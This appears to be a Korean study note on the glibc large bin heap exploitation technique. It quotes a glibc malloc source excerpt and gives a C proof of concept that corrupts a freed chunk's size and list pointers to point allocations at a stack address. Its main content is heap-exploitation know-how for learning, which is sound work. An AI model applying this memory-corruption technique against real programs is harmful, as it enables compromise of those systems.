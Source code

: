 #### Large bin exploitation

2-3-2-2-2을 이용한다.

```c
else
{
     victim->fd_nextsize = fwd;
     victim->bk_nextsize = fwd->bk_nextsize;
     fwd->bk_nextsize = victim;
     victim->bk_nextsize->fd_nextsize = victim;
}
bck = fwd->bk;
```

이 코드를 이용하게 되는데

unsorted bin attack 과 유사하게 fwd -> bk를 fake chunk로 덮을 수 있다면 fake chunk -> fd값을 손상 시킬 수 있다. 

fd_nextsize와 bk_nextsize도 함께 이용해야 한다..

```c
#include<stdio.h>
#include<stdlib.h>
 
int main()
{
    unsigned long *p1, *p2, *p3, *p4, *p5, *p6, *p7, *p8, *p9, *p10, *p11, *p12;
    unsigned long *p;
    unsigned long stack[8] = {0};
    printf("stack address: %p\n", &stack);
    p1 = malloc(0x3f0);
    p2 = malloc(0x20);
    p3 = malloc(0x400);
    p4 = malloc(0x20);
    p5 = malloc(0x400);
    p6 = malloc(0x20);
    p7 = malloc(0x120);
    p8 = malloc(0x20);
    p9 = malloc(0x140);
    p10 = malloc(0x20);
    p11 = malloc(0x400);
    p12 = malloc(0x20);
    free(p7);
    free(p9);
 
    p = malloc(0x60);
    p = malloc(0xb0);
 
    free(p1);
    free(p3);
    free(p5);
 
    p = malloc(0x60);
 
    free(p11);
 
    *(p3-1) = 0x3f1;
    *(p3) = (unsigned long)(&stack);
    *(p3+1) = (unsigned long)(&stack);
    *(p3+2) = (unsigned long)(&stack);
    *(p3+3) = (unsigned long)(&stack);
    // trigger malicious malloc
    p = malloc(0x60);
 
    return 0;
```